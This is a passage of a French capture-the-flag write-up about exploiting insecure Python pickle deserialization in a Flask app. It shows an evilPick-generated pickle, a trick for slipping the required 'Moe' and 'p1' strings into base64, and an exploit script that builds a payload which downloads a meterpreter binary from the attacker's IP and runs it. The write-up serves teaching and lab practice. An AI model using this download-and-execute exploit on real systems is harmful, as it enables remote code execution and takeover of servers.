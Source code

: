 On trouve des projets tout fait pour générer des payloads prêts à l'emploi comme [evilPick](https://github.com/francescolacerenza/evilPick) et [evil-pickle](https://github.com/fhightower/evil-pickle) (je me suis tourné vers le premier).  

Cet outil demande qu'on lui passe un script Python qui sera ainsi sérialisé. A titre d'exemple la transformation de l'instruction *print("hello world")* génère le pickle suivant :  

```plain
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAAAAAAAAQAAAEMAAABzCQAAAGQBAEdIZAAAUygCAAAATnMLAAAAaGVsbG8gd29ybGQoAAAAACgAAAAAKAAAAAAoAAAAAHMIAAAAPHN0cmluZz50AwAAAGZvbwEAAABzAgAAAAAB'
tRtRc__builtin__
globals
(tRS''
tR(tR.
```

Mais la soumission directe de ce pickle ne permettra pas d'exploiter la vulnérabilité pour autant.  

Le script Flask a en effet deux vérifications qui nécessitent d'être bypassées.  

Premièrement dans la méthode *submit()* le nom du personnage des *Simpsons* et sa citation sont récupérées. Le nom du personnage doit être valide et est vérifié parmi une whitelist via un simple *IN* insensible à la casse.  

Deuxièmement dans la méthode *check()* qui charge le contenu pour le désérialiser, le script vérifie d'abord la présence de la chaîne *p1*.  

Il semble compliqué (mais probablement pas impossible) d'intégrer des données dans la partie pickle puisque *evilPick* encode la totalité du script qu'on lui donne en base64...  

J'ai donc choisi la méthode qui consiste à faire en sorte que les mots clés attendus se trouvent dans le base64. On pourrait utiliser la force brute pour trouver des correspondances mais par tâtonnement ça fonctionne aussi.  

Ainsi *i3(y* donne *aTMoeQ==* en base64 qui contient Moe (le gérant du bar du même nom) et *iZua* donne *aVp1YQ==* qui contient le *p1*.  

Il est important de répéter ces patterns avec un padding pour être sûr que les chaînes souhaitées apparaissent quelque soit le reste du script.  

Mon exploit final (avec le payload intégré) ressemble alors à ceci :  

```python
import os

from hashlib import md5
import requests

ipv4 = os.popen("ip addr show tun0").read().split("inet ")[1].split("/")[0]
print("Generating down-exec payload with IP", ipv4)
payload = """import os
import urllib
print('pi3(ypi3(ypi3(ypi3(yiZuaiZuaiZuaiZu')
urllib.urlretrieve("http://{}/devloop_meterpreter", "/tmp/devloop_meterpreter")
os.system("chmod 777 /tmp/devloop_meterpreter;/tmp/devloop_meterpreter &")
""".format(ipv4)

with open("download_execute.py", "w") as fd:
    fd.write(payload)

print("Converting to pickle file...")
os.system("python evilPick.py -f download_execute.py -s payload -e none")

print("Sending payload...")
```